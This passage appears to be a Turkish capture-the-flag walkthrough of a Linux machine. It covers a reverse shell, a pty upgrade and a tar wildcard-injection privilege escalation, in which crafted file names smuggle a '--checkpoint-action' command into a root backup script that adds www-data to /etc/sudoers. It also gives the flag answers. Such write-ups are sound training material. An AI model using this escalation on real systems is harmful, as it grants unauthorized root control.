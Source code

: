 Bunu tarayıcımızdan açalım. Bize ters bir kabuk açacaktır.

![resim](https://sibermetin.com/uploads/images/202212/image_750x_63a46ea7950c9.jpg)

Ana dizine erişimimizin olup olmadığına bakalım.

![resim](https://sibermetin.com/uploads/images/202212/image_750x_63a46f1c3607d.jpg)

## SORU 4: Kullanıcı bayrağı nedir?

## CEVAP: 7ce5c2109a40f958099283600a9ae807

Root bayrağı bulmak için yetki yükseltme yapmamız gerekecek.

    python -c ‘import pty;pty.spawn(“/bin/bash”)’

Bu kodu kullanarak etkileşimli bir tty kabuğuna yükseltmemiz gerekir.

sudo -l komutu ile sudo izinleri kontrol edebiliriz.

![resim](https://sibermetin.com/uploads/images/202212/image_750x_63a4af11b41da.jpg)

Sudo yaparak bir şeyleri çalıştırıp çalıştıramama iznimiz bulunmamaktadır. Bunun yerine contrabı deneyelim.

![resim](https://sibermetin.com/uploads/images/202212/image_750x_63a4b227a67d6.jpg)

Komut dosyasındaki izinleri kontrol edelim.

![resim](https://sibermetin.com/uploads/images/202212/image_750x_63a4b2ede1bf5.jpg)

Dosyaları yeniden adlandırma e içinde yeni dosyalar oluşturma iznimizin olmadığını görüyoruz. backup.sh dosyasını inceleyelim.

![resim](https://sibermetin.com/uploads/images/202212/image_750x_63a4b3e9b6437.jpg)

Bu komut dosyası root olarak çalışır. Dizini '/var/www/html' olarak değiştirir ve ardından dizinin içeriğini '/home/milesdyson/backups' adresindeki backup.tgz adlı bir dosyaya sıkıştırmak için tar kullanır.

    echo ‘echo “www-data ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > sudo.sh
    touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"
    touch "/var/www/html/--checkpoint=1"

Kullanıcımızı sudoers'a eklemek ve makinedeyken root kazanmak için bu kodu kullanarak komut dosyası oluşturalım.

/var/www/html dizinimizde bu komutu çalıştırdıktan sonra, yedeklenen dizinin içinde 3 yeni dosyamız olmalıdır.

![resim](https://sibermetin.com/uploads/images/202212/image_750x_63a4b8a02f30b.jpg)

Veee artık root erişimimizi sudo su kullanarak elde edebiliriz.

![resim](https://sibermetin.com/uploads/images/202212/image_750x_63a4b91db6f47.jpg)

## SORU 5: Kök bayrağı nedir?

## CEVAP: 3f0372db24753accc7179a282cd6a949
